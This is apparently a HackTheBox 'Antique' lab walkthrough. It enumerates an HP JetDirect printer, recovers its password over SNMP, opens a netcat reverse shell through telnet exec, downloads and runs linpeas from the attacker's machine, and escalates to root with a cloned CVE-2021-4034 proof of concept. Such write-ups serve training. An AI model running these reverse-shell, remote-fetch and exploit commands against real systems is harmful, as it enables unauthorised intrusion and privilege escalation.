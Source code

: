 
#HackTheBox Antique Walkthrough

![](images/image-9.png)

Here's a result of the NMAP Scan.

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|\_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=6/12%Time=62A625D0%P=x86\_64-pc-linux-gnu%r(NULL
SF:,F,"\\nHP\\x20JetDirect\\n\\n")%r(GenericLines,19,"\\nHP\\x20JetDirect\\n\\nPas
SF:sword:\\x20")%r(tn3270,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(GetReq
SF:uest,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(HTTPOptions,19,"\\nHP\\x2
SF:0JetDirect\\n\\nPassword:\\x20")%r(RTSPRequest,19,"\\nHP\\x20JetDirect\\n\\nPa
SF:ssword:\\x20")%r(RPCCheck,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(DNS
SF:VersionBindReqTCP,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(DNSStatusR
SF:equestTCP,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(Help,19,"\\nHP\\x20J
SF:etDirect\\n\\nPassword:\\x20")%r(SSLSessionReq,19,"\\nHP\\x20JetDirect\\n\\nPa
SF:ssword:\\x20")%r(TerminalServerCookie,19,"\\nHP\\x20JetDirect\\n\\nPassword:
SF:\\x20")%r(TLSSessionReq,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(Kerbe
SF:ros,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(SMBProgNeg,19,"\\nHP\\x20J
SF:etDirect\\n\\nPassword:\\x20")%r(X11Probe,19,"\\nHP\\x20JetDirect\\n\\nPasswor
SF:d:\\x20")%r(FourOhFourRequest,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r
SF:(LPDString,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(LDAPSearchReq,19,
SF:"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(LDAPBindReq,19,"\\nHP\\x20JetDire
SF:ct\\n\\nPassword:\\x20")%r(SIPOptions,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x
SF:20")%r(LANDesk-RC,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(TerminalSe
SF:rver,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(NCP,19,"\\nHP\\x20JetDire
SF:ct\\n\\nPassword:\\x20")%r(NotesRPC,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20
SF:")%r(JavaRMI,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(WMSRequest,19,"
SF:\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(oracle-tns,19,"\\nHP\\x20JetDirect
SF:\\n\\nPassword:\\x20")%r(ms-sql-s,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")
SF:%r(afp,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(giop,19,"\\nHP\\x20JetD
SF:irect\\n\\nPassword:\\x20");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/12%OT=23%CT=1%CU=38853%PV=Y%DS=2%DC=T%G=Y%TM=62A6267
OS:9%P=x86\_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

nmap -sU 10.10.11.107

PORT    STATE SERVICE
161/udp open  snmp

We have TCP port 23 open and UDP port 161 open.

telnet 10.10.11.107

![](images/image-2.png)

We need a password, the password might be sent over in clear text.

10.10.11.107 is connected to a HP JetDirect printer. I found a well written article about printer security. [https://www.irongeek.com/i.php?page=security/networkprinterhacking](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

I'm going to leverage snmpget to try and find a password.

snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0

iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135

snmp-get is returning something in hexadecimal. Lets convert it to ASCII and see if we find anything.

![](images/image-5.png)

We got a password! Lets telnet in and see what else we can do.

Telnet has an exec option enabled, we can execute commands. Lets try and get a reverse shell going.

I got a one liner from [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \[ip\] \[port\] >/tmp/f

We also need to start a netcat listener on our kali machine.

nc -lnvp 4444

[![](images/image-8-1024x661.png)]

We're in and we have our first user flag!

As always, the next step is to run linpeas to see what we can exploit to escalate privilege to root.

python -m SimpleHTTPServer 6666

And on the victim machine.

wget 10.10.14.19:6666/linpeas.sh
./linpeas.sh

[![](images/image-9-1024x579.png)]

The machine is vulnerable to CVE-2021-4034

Clone a POC on your kali machine.

git clone https://github.com/berdav/CVE-2021-4034.git

Again, run a simplehttpserver.

python -m SimpleHTTPServer 6666

This time we want to fetch everything in the folder so we'll use a recursive option.

wget -r 10.10.14.19:6666
make
./cve-2021-4034

make and run the CVE.

[![](images/image-10.png)]

And we're root!
